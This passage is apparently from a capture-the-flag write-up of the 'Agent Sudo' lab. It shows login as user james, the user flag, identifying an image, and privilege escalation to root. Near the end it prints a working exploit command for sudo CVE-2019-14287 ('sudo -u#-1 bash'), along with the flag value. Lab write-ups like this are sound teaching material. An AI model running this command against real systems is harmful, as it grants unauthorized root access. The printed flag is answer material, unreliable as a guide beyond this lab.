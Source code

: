 ```
Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ 

```

We are in!

I performed an **"ls"** command and found the following files:
	
```
Alien_autospy.jpg, user_flag.txt
```

I opened the user_flag.txt file:
	
```
b03d975e8c92a7c04146cfa7a5a313c7
```

I SCP'd the **Alien_autospy.jpg** onto my computer(really creepy!):
	
![Alien_autospy](./Alien_autospy.jpg)

I performed some steganography research on it. But didn't come up with anything. I checked out the hint, it turns out they want you to do a reverse-image search and look up what the incident of the image is called: It's called the **"Roswell alien autopsy"**


## Privelege Escalation

I checked for the sudo version and got: **"Sudo version 1.8.21p2"**

I looked it up, and there is a privelege escalation vulnerability for this version of sudo: [CVE-2019-14287](https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability)

So, I ran the following command:
	
```shell
james@agent-sudo:~$ sudo -u#-1 bash
---
root@agent-sudo:~# whoami
root
```
